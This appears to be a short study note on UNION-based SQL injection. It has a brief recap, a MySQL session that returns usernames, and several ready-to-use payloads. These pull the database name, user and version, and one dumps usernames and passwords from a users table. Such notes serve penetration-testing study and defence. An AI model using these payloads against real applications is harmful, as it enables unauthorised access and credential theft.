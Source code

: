 # UNION Based SQL Injection





## Recap

UNION clauses allow for an additional SQL statement. It's always worth testing for this type of injection. WE MUST FILL ADDITIONAL COLUMNS WITH JUNK DATA.

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```



### Examples

```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```sql
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

> \
>
